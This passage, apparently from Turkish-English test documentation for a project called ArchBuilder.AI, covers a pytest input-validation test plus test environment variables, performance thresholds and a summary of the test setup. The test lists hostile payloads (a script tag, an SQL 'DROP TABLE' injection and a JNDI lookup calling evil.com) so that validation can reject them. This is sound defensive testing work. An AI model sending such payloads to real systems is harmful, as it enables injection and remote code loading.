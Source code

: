 ### 4. Security Test Patterns

```python
# Input validation testing
malicious_inputs = ["<script>", "'; DROP TABLE", "${jndi:ldap://evil.com}"]
for malicious_input in malicious_inputs:
    with pytest.raises(ValidationException):
        await validate_input(malicious_input)
```

## Konfigürasyon

### Test Environment Variables

```bash
ENVIRONMENT=testing
LOG_LEVEL=DEBUG
AI_MODEL_TIMEOUT=30
DATABASE_URL=sqlite+aiosqlite:///./test_archbuilder.db
```

### Test Settings

```python
class TestConfig:
    API_RESPONSE_THRESHOLD_MS = 500
    AI_PROCESSING_THRESHOLD_MS = 30000
    ERROR_RATE_THRESHOLD = 0.001
    AI_CONFIDENCE_THRESHOLD = 0.8
```

## Sonuç

Bu test altyapısı ArchBuilder.AI için:

✅ **Kapsamlı Kalite Güvencesi**: Test piramidi ile %80+ kod kapsaması
✅ **Performans Doğrulaması**: API ve AI işleme hız gereksinimleri
✅ **Güvenlik Validasyonu**: AI çıktı güvenlik kontrolü ve input validation
✅ **BDD Scenarios**: İş akışı doğrulaması ve user story testing
✅ **CI/CD Ready**: Hızlı ve tam test pipeline'ları
✅ **Property-Based Testing**: Edge case ve robustness testing
✅ **Comprehensive Reporting**: HTML, XML, JSON formatlarında raporlama

Bu altyapı ile ArchBuilder.AI production-ready kalite standartlarına ulaşır ve sürekli integration/deployment süreçlerini destekler.